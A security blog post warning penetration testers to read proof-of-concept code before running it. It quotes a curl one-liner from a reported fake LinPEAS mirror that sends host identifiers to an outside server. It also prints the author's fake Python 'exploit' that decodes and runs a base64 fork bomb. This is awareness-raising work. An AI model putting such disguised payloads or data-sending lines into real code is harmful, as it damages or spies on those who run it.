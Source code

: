 ```yaml
---
title: Read Before You Run
layout: post
image: "https://github.com/user-attachments/assets/b557e57a-6c9c-48e7-95e2-c3c3af623275"
author: "0xRar"
description: "Read the freaking code!, a post about how code literecy can also effect technical people."
tags:
- General
- OffSec
---
```


Hello hacker friends, today i wanted to talk to you all about something, offensive security operators/sys admins
still need to be careful of what they run, Let me tell you why.

A while ago i have noticed some fake Proof of Concept exploits on github that execute something other than what the 
vulnerabillity actually is e.g. apache version 2.xx.xx but the script is sending the content of `/home/user/.ssh/id_rsa`
to an attacker controlled server, which is the path to the secure shell(SSH) private key that can be used to connect 
remotely to the machine.

In the following sections i will show a few examples on how code literecy can be bad if the threat actor knew what to do.


## Fake LinPEAS Mirror

On Nov 27, 2024 someone by the name of [shadyeip] created a [github issue] on the original github repo
of LinPEAS (linux privilege escalation awesome scripts), reported that the the linpeas script hosted on
https://linpeas.sh/ is actually sending information about every linux machine it runs on using the following 
linux one liner.

```bash
curl -s "https://log.linpeas.sh/?uuid=$(cat /proc/sys/kernel/random/uuid)&id;=$(cat /var/lib/dbus/machine-id)&root;=$IAMROOT&hostname;=$(hostname)&user;=$(whoami)&uname;=$(uname -a | base64 -w 0)&cwd;=$(pwd | base64 -w 0)" > /dev/null 2>/dev/null
```
sends data such as:
- Machine ID
- Hostname
- Username
- Uname - to get all the information related to the Operating system on the host machine

Thankfully this whole thing appeared to be a reaseach project by the owner of the domain [hattonsec], and of course
this code will be really hard to analyze due to the size of the script.

The script was removed but you can find in: [Wayback Machine / Web Archive]

![Chillguy](https://github.com/user-attachments/assets/137b36cc-44ec-4333-ab0a-620b74c14c06)

[github issue]: https://github.com/peass-ng/PEASS-ng/issues/450
[shadyeip]: https://github.com/shadyeip
[hattonsec]: https://x.com/hattonsec
[Wayback Machine / Web Archive]: https://web.archive.org/web/20240902110620/https://linpeas.sh/

## A Simple fake PoC exploit made by me

For this example i made a simple a fake PoC written in python, lets say you are in a pentest and you found 
a vulnerable software running on the client's network, so you decide to go to github and look for an exploit
you find an exploit and you decide to clone it and run it without actually reading the code or understading 
what the vulnerabillity is.

"Exploit":
```python
import time
import distro
import subprocess

# A Proof of Concept privilege escalation exploit for ubuntu based hosts
# CVE: CVE-2025-0000
# Tested on: Ubuntu
# Author: 0xRar

def check_dist():
    if distro.id() == 'ubuntu':
        print('[+] Target is vulnerable.')
    else:
        print('[-] Target is not vulnerable :(')
        quit('Quitting... Try again next time')


def main():
    check_dist()
    print('[+] Getting the root shell ready for you !')
    time.sleep(5)

    # Executing the payload
    payload = 'OigpeyA6fDomIH07Og=='
    subprocess.run('id root', shell=True)
    subprocess.run(f'echo {payload} | base64 -d | bash', shell=True)


if __name__ == '__main__':
    main()
```

Despite the simplicity, if user does not decode the base64 they wouldn't know what it does, 
let me break it down

the code starts by creating a function `check_dist()` which checks if the target system distro is ubuntu
if that statement returns true it will print `[+] Target is vulnerable.` in order to trick the user in beliving its 
actually doing something moving on to the `main()` function; it goes on by running the `check_dist()` function,
sleeping and then initilizes a `payload` variable that decodes into a [fork bomb] `:(){ :|:& };:` and executes it.

whats a fork bomb? : in short a fork bomb is a defined function that calls it self and the pipes the result 
back into itself which will keep running as a background job because of the `&` creating an endless loop
of processes.

![fake poc](https://github.com/user-attachments/assets/755ff199-d5c2-4a6e-afaf-24341685e74b)

[fork bomb]: https://en.wikipedia.org/wiki/Fork_bomb


## Vibe Coding

Changing the topic one last time, vibe coding without actually understanding what the code is doing is even much worst
than you think, people actually started SaaS companies creating software and selling it and then realize their code base
is actually riddeld with vulnerabilities, AI for the most part is making something that works and thats about it, check
following real-life example: 

![VibeCoding](https://github.com/user-attachments/assets/ee9b3966-a14b-4474-b567-6276d5380deb)
image credits: [_zenman]

[_zenman]: https://x.com/_zenman

## Thank you for reading !

Thats it for this blog post thank you for reading, until next time.

Happy Hacking.
